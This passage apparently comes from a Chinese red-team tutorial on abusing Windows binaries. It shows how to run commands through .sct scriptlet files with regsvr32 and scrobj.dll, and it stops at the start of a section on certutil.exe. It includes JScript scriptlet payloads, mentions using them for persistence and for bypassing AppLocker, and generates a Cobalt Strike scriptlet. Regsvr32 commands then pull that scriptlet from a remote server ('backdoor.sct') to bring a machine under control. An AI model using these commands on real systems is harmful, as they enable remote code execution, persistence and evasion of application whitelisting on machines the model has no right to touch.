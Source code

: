 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicncamooZcZFicEGvVjibZTzHNmyRaQWfUD4quvPBDacIcsxJUicV3KyMvQ/640?wx_fmt=png)

.sct 文件必须是 XML 文件格式，要执行命令可以参考如下：

SCT 文件（实际上是 XML 文件）中具有一个注册标记，其中可以包含 VBScript 或 JScript 代码。请注意，该文件可以具有任何扩展名。它不一定是. sct，但是该技术围绕 SCT 文件的使用和 Windows 脚本组件服务而构建。

例如：

<?XML version="1.0"?>

```
<scriptlet><registration  progid="TESTING"  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >  <script language="JScript">    <![CDATA[      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe");     ]]></script></registration></scriptlet>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglic80Rv1pUEaxkz1q46ib0TORHnney1KG8TuQ8tr1302LJLicY2vvDIjeSw/640?wx_fmt=png)  
同样我们可以利用该技术可以应用于持久化，绕过 AppLocker，sct 文件内容如下：

```
<?XML version="1.0"?><scriptlet><registration  description="Component"  progid="Component.TESTCB"  version="1.00"  classid="{20002222-0000-0000-0000-000000000002}"></registration> <public>  <method >  <![CDATA[    function exec(){      new ActiveXObject('WScript.Shell').Run('calc.exe');    }  ]]></script></scriptlet>
```

我们这里还是使用 cobalt strike 吧，因为在 cobalt strike 中利用直接生成 com script 的恶意文件，当然手工也可以，但是比较麻烦。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicBpaVCERXTXibJBX4iaJyyF2twcsBZNHP5s2RrXtTRFmVaLX1qGS2Z9VQ/640?wx_fmt=png)

然后放在我们的 web 服务器中，

cmd 输入 `regsvr32.exe "http://192.168.50.146:80/download/123.sct" scrobj.dll`

直接上线

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdgliccRJLneSGZ5yxrmo8eHYecwiaXlLKFeVqmGNsaQr0j2MhtMesazZWnUQ/640?wx_fmt=png)

上述方法运行完 regsvr32.exe /s /i:http://x.x.x.x/backdoor.sct scrobj.dll 后, scrobj.dll 会创建 COM 对象，并写入注册表中，可以从 HKEY_CLASSES_ROOT 和 HKEY_LOCAL_MACHINE 查看到，可以通过以下的 js 脚本调用触发：

```
var test = new ActiveXObject("Component.TESTCB");test.exec()
```

后面我会出一个 sct 的深度利用文章。sct 挺好玩的

**4.certutil.exe 的利用**
----------------------

Certutil.exe 是命令行程序，作为证书服务的一部分进行安装。你可以使用 certutil.exe 来转储和显示证书颁发机构 (CA) 配置信息、配置证书服务、备份和还原 CA 组件以及验证证书、密钥对和证书链。  
如果 certutil 在没有其他参数的证书颁发机构上运行，则它将显示当前的证书颁发机构配置。如果在非证书颁发机构上运行 certutil，则该命令默认为运行 certutil [-dump] 命令。

具体文档可以看微软中的

```
https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/certutil
```
